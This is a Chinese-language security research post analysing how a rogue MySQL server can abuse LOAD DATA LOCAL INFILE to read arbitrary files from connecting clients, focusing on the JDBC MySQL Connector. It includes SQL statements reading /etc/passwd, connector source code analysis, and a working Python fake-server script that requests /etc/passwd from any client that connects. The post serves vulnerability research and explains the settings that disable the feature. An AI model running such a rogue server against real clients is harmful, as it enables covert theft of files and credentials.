










来自 LoRexxar@Knownsec 404Team & Dawu@Knownsec 404Team 在 CSS-T 上的分享。
此漏洞的利用方式同样适用于 JDBC MySQL Connecter。
如果 mysql 客户端在连接服务端时使用了 –enable-local-infile 选项，并执行 LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE test FIELDS TERMINATED BY '\n'; 语句，客户端会读取本地的文件并将其内容发送至服务端。
因此，如果 mysql 服务器是不受信任的服务器，一个简单的建立连接行为可能会导致对客户端的任意文件读取。
LOAD DATA INFILE
LOAD DATA INFILE 是 SQL 注入中常用的语句，用于读取 mysql 服务器上的文件，
load data infile "/etc/passwd" into table foo FIELDS TERMINATED BY '\n';但它通常都会遭受 secure_file_priv 权限的限制，利用难度较高。
mysql> load data infile "/etc/passwd" into table foo FIELDS TERMINATED BY '\n';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement但是该语句有一个关键词，添加 local
load data local infile "/etc/passwd" into table foo FIELDS TERMINATED BY '\n';它会读取 client 的文件 /etc/passwd 并填入 server 端表格 foo 中。
mysql> load data local infile "/etc/passwd" into table foo FIELDS TERMINATED BY '\n';
Query OK, 7 rows affected (0.01 sec)
Records: 7 Deleted: 0 Skipped: 0 Warnings: 0
在高版本的 mysql client 和 server 版本中，需要同时在两端开启才可使用。
ERROR 3948 (42000): Loading local data is disabled; this must be enabled on both the client and server sides
开启或关闭 LOAD DATA INFILE
以下方法来自 8.0 的文档，不一定适合所有版本
在 mysql 服务端，若需开启或关闭 LOAD DATA INFILE，使用如下参数选项。
--local-infile=(OFF|ON)
在 mysql 客户端，在编译时是默认关闭 LOAD DATA INFILE 的『ENABLED_LOCAL_INFILE=false』，

如果使用的是 mysql client，则可以通过参数 --local-infile=0 或 --local-infile=1 来关闭或开启 LOAD DATA INFILE。
利用
LoRexxar 在他的 文章 中已经提到，可以通过伪造服务端的方式，读取客户端的任意文件。
假设原本的查询流程为
客户端：我要把win.ini插入test表中
服务端：我要你的win.ini内容
客户端：win.ini的内容如下....
假设服务端由我们控制，把一个正常的流程篡改成如下
服务端由我们控制，把一个正常的流程篡改成如下
客户端：我要test表中的数据
服务端：我要你的win.ini内容
客户端：win.ini的内容如下???
在 mysql 文档 中也提到，这是可行的。不过这里有一个问题需要验证：是否无论客户端发出怎样的查询请求，只要服务端返回一个特定的响应，客户端都会根据这个响应读取文件并返回。

这里仅关注 JDBC MySQL Connector，下面是一个代码示例，这里直接执行 LOAD DATA INFILE 语句。
public class LoadFile {
public static void main(String[] args) throws Exception {
String URL = "jdbc:mysql://localhost:3306/mysql?useSSL=false&allowUrlInLocalInfile=true&allowLoadLocalInfile=true";
String CLASS_NAME = "com.mysql.cj.jdbc.Driver";
Class.forName(CLASS_NAME);
Connection connection = DriverManager.getConnection(URL, "root", "passwd");
Statement stmt = connection.createStatement();
int rowsAffected = stmt.executeUpdate("load data local infile \"/etc/passwd\" into table foo FIELDS TERMINATED BY '\\n'"); // [1]
System.out.println(rowsAffected + " row(s) affected.");
connection.close();
}
}对请求过程进行抓包『注意这里关闭了 SSL』。

首先客户端发送 Greeting 请求，其中携带客户端的信息，如协议版本，验证方法等。其中还包含 salt，应该是用于后续密码验证的

接着，提交认证信息
并继续提交请求，其中都是一些预查询语句，用于获取服务端的参数，为后续请求作准备。
SELECT @@session.auto_increment_increment AS auto_increment_increment, @@character_set_client AS character_set_client, @@character_set_connection AS character_set_connection, @@character_set_results AS character_set_results, @@character_set_server AS character_set_server, @@collation_server AS collation_server, @@collation_connection AS collation_connection, @@init_connect AS init_connect, @@interactive_timeout AS interactive_timeout, @@license AS license, @@lower_case_table_names AS lower_case_table_names, @@max_allowed_packet AS max_allowed_packet, @@net_write_timeout AS net_write_timeout, @@performance_schema AS performance_schema, @@sql_mode AS sql_mode, @@system_time_zone AS system_time_zone, @@time_zone AS time_zone, @@transaction_isolation AS transaction_isolation, @@wait_timeout AS wait_timeoutSET character_set_results = NULLSET autocommit=1

紧接着的为 [1] 中的查询，其中提交的数据只是查询语句，并不包括要读取的文件内容，

读取后的文件另一个请求中进行提交。

这里注意前一个请求的响应『25』类型为 TABULAR，其响应的内容包含了服务端需要客户端读取的文件『』。从某个方面来讲，这印证了前面在 mysql 文档 文档中，提到的，服务端可以单方面指定要读取的文件，后续需要做的，就是实操测试了。
不太清楚
TABULAR在mysql协议中的含义，文档中没有直接提及它，不过从 wireshark 的描述 『第 13 个数据流』 中可以看到，它表示一个语句执行的中间结果『表格的形式』。

代码分析
响应 『25』的触发点在 com.mysql.cj.protocol.a.TextResultsetReader#read
@Override
public Resultset read(int maxRows, boolean streamResults, NativePacketPayload resultPacket, ColumnDefinition metadata,
ProtocolEntityFactory<Resultset, NativePacketPayload> resultSetFactory) throws IOException {
Resultset rs = null;
//try {
long columnCount = resultPacket.readInteger(IntegerDataType.INT_LENENC);
if (columnCount > 0) {
...
} else {
// check for file request
if (columnCount == NativePacketPayload.NULL_LENGTH) {
String charEncoding = this.protocol.getPropertySet().getStringProperty(PropertyKey.characterEncoding).getValue();
String fileName = resultPacket.readString(StringSelfDataType.STRING_TERM,
this.protocol.getServerSession().getCharsetSettings().doesPlatformDbCharsetMatches() ? charEncoding : null); // [2]
resultPacket = this.protocol.sendFileToServer(fileName);
}在 [2] 读取响应内容中指定的文件名，并通过 NativeProtocol#sendFileToServer 读取文件内容
public final NativePacketPayload sendFileToServer(String fileName) {
NativePacketPayload filePacket = (this.loadFileBufRef == null) ? null : this.loadFileBufRef.get();
int bigPacketLength = Math.min(this.maxAllowedPacket.getValue() - (NativeConstants.HEADER_LENGTH * 3),
alignPacketSize(this.maxAllowedPacket.getValue() - 16, 4096) - (NativeConstants.HEADER_LENGTH * 3));
int oneMeg = 1024 * 1024;
int smallerPacketSizeAligned = Math.min(oneMeg - (NativeConstants.HEADER_LENGTH * 3),
alignPacketSize(oneMeg - 16, 4096) - (NativeConstants.HEADER_LENGTH * 3));
int packetLength = Math.min(smallerPacketSizeAligned, bigPacketLength);
...
byte[] fileBuf = new byte[packetLength];
BufferedInputStream fileIn = null;
try {
fileIn = getFileStream(fileName); // [3]其中 [3] 通过 getFileStream 方法获取文件输入流，
private BufferedInputStream getFileStream(String fileName) throws IOException {
RuntimeProperty<Boolean> allowLoadLocalInfile = this.propertySet.getBooleanProperty(PropertyKey.allowLoadLocalInfile);
RuntimeProperty<String> allowLoadLocaInfileInPath = this.propertySet.getStringProperty(PropertyKey.allowLoadLocalInfileInPath);
RuntimeProperty<Boolean> allowUrlInLocalInfile = this.propertySet.getBooleanProperty(PropertyKey.allowUrlInLocalInfile);
...
if (allowUrlInLocalInfile.getValue()) {
try {
URL urlFromFileName = new URL(fileName);
if (!urlFromFileName.getProtocol().equalsIgnoreCase("file")) {
throw ExceptionFactory.createException(Messages.getString("MysqlIO.66", new Object[] { urlFromFileName.getProtocol() }),
this.exceptionInterceptor);
}该方法会判断对应的属性是否设置为 true，比较有意思的一点是，如果设置了 allowUrlInLocalInfile=true，那么还可以使用 file 协议来指定需要读取的文件。
根据 fnmsd 的 文章，在旧版本的 connector 中可以使用更多的协议 http/https/ftp/file/jar/mailto/netdoc。
为了验证前面提到的，是否可以无视客户端的查询请求，并让它读取指定文件，再次回顾 com.mysql.cj.protocol.a.TextResultsetReader#read 方法。如果这个方法，是所有查询请求，或者说大部分查询请求数据流都会经过的一个方法，那么服务端就真的可以随意伪造响应内容了。
在 [4] 打下断点，并重新运行前面的示例，会发现连接成功后的预查询语句的响应也会经过该方法。
public Resultset read(int maxRows, boolean streamResults, NativePacketPayload resultPacket, ColumnDefinition metadata,
ProtocolEntityFactory<Resultset, NativePacketPayload> resultSetFactory) throws IOException {
Resultset rs = null;
//try {
long columnCount = resultPacket.readInteger(IntegerDataType.INT_LENENC); // [4]
if (columnCount > 0) {
// Build a result set with rows.
...不过，具体怎么样，还是要实际验证一下。
伪造服务端
如果想真的进行利用，需要自行伪造一个 mysql 服务器，Gifts 和 fnmsd 公开过他们的攻击。
- Rogue-MySql-Server: Rogue MySql Server
- MySQL_Fake_Server: MySQL Fake Server use to help MySQL Client File Reading and JDBC Client Java Deserialize
不过体验下来都不是很好用，代码太久远了，为了验证前面提到的问题，我偷懒写了个很简单的脚本。
#!/usr/bin/env python
# coding: utf8
import socket
filelist = (
'/etc/passwd',
)
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.bind(('localhost', 3306))
sock.listen(1)
print("Listening on 3306")
while True:
connection,address = sock.accept()
try:
connection.settimeout(50)
# greeting
connection.send(bytes.fromhex("4a0000000a382e302e3333001a00000008596d5b6704272000ffffff0200ffdf15000000000000000000006d605b15337c2e37022e1637006d7973716c5f6e61746976655f70617373776f726400"))
buf = connection.recv(1024)
connection.send(bytes.fromhex(""))
# authentication response
connection.send(bytes.fromhex("0700000200000002000000"))
# request to load local file
buf = connection.recv(4096)
connection.send(bytes.fromhex("0c000001fb2f6574632f706173737764"))
# receive the response from the client
buf = connection.recv(4096)
print(buf)
connection.close()
except socket.timeout:
print("Time out")
break
connection.close()运行该脚本，并运行前面的 Java 代码『删掉 executeUpdate 部分的代码』，成功复现。

如果要采用非侵入式的方式，构造一个虚假的服务器，则需要利用中间价对 MySQL 连接进行代理和修改，JDBC-Attack 就是借助了阿里巴巴的 cobar 中间件。